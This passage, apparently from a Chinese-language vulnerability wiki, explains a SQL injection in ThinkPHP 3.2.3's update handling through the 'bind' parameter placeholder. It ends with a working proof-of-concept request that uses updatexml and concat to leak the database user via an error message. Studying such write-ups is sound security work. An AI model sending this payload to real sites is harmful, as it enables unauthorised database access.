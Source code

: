 替换后：

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3update注入漏洞/media/rId28.jpg)

明显发现之前的`user`参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3update注入漏洞/media/rId29.jpg)

那么我们将id\[1\]数组的参数变为0呢？

    id[]=bind&id[]=0%27&money[]=1123&user=liao

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3update注入漏洞/media/rId30.jpg)

果然造成了注入：

### poc

    money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3update注入漏洞/media/rId32.jpg)

参考链接
--------

> <https://www.anquanke.com/post/id/104847>
